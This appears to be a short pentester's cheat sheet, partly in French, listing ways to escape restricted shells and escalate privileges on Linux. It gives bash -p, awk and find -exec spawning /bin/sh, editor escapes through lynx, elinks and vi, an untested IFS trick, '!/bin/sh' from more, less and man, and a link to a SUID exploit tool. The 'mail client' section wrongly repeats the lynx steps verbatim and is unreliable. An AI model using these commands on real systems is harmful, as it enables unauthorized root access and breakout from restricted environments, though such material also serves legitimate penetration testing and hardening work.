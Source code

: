 ## bash
    To avoid bash drop privileges use -p
    bash -p
    
## lynx & vi
    open a local file with lynx (e.g.: $ lynx /etc/passwd)
    type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.
    Type “e” to edit the file with vi
    Follow instructions for vi

## mail client
    open a local file with lynx (e.g.: $ lynx /etc/passwd)
    type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.
    Type “e” to edit the file with vi
    Follow instructions for vi

## elinks : web browser
    $ set EDITOR=/bin/vi
    Open a webpage containing a text box (should be easy to find on the Internet. If you can not, well lmgtfy!!!).
    Navigate to the text-box area and Enter to edit, the press F4 (or whatever is used in the configurations) to edit the text box externally, and you should see something familiar :=)

## Using IFS (à tester)
    On lance un programme qui execute /bin/mail
    On créé les fichier bin et mail en 777 dans le répertoire courant
    export IFS="/"
    
## awk
    awk 'BEGIN {system("/bin/sh")}'

## find
    find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

## Auto sbin exploit
  https://github.com/Anon-Exploiter/SUID3NUM
  
## More, Less, and Man Commands
!commandxxx
'! /bin/sh'
'!/bin/sh'
'!bash'
